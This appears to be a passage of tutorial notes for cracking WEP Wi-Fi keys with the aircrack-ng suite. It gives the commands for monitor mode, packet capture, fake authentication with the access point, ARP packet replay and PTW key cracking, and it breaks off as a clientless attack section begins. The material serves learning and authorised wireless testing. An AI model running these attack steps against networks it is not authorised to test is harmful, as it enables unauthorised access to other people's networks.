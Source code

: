 #### 3.2.1 preparation

1. put device in monitoring mode
`> airmon-ng start <device> <channel>`

2. capture packets and save it to a file (
`> airodump-ng -c <channel> --bssid <AP MAC> -w <dumpfile.name> <monitoring device>`

3. fake authenticate with the AP
`> aireplay-ng -1 0 -e <AP name> -a <AP MAC> -h <mon device MAC> <mon device>`

#### 3.2.2 interactive packet replay attack
Choose a specific Packet and send it to AP to create IVs. A perfect Packet would be a ARP Packet.
Packet must be destent to broadcast network and has to come from DS. The ARP has to be for that specific client.

- get interactive packet capturing dialogue:
`> aireplay-ng -2 -b <AP MAC> -d <Broadcast Addr. e.g. FF:FF:FF:FF:FF:FF> -f 1 -m 68 -n 86 <mon dev>`
wait for a suitable packet to arrive and use it for replay.

- use a precaptured packet in a capture file to replay
`> aireplay-ng -2 -r <capture filename> <device>`

#### 3.2.3 aircrack the WEP key
once enough IVs are captured, use aircrack to crack WEP key.

- z for PTW attack, n for bit length of WEP key
`> aircrack-ng -0 -z -n 64 <dumpfile.name>`

#### 3.2.4 summarize WEP crack via client

1. put device in monitoring mode
`> airmon-ng start <device> <channel>`

2. capture packets and save it to a file
`> airodump-ng -c <channel> --bssid <AP MAC> -w <dumpfile.name> <monitoring device>`

3. fake authenticate with the AP
`> aireplay-ng -1 0 -e <AP name> -a <AP MAC> -h <mon device MAC> <mon device>`

4. get interactive packet capturing dialogue and replay the packet to AP (-f is filtering the "fromDS" packets:
`> aireplay-ng -2 -b <AP MAC> -d <Broadcast Addr. e.g. FF:FF:FF:FF:FF:FF> -f 1 -m 68 -n 86 <mon dev>`

5. cracking the WEP Key
`> aircrack-ng -0 -z -n 64 <dumpfile.name>`

### 3.3 WEP cracking clientless
ChopChop and fragmentation attacks are used to optain a PRGA bitfile.

#### 3.3.1 preparation

1. put device in monitoring mode
`> airmon-ng start <device> <channel>`

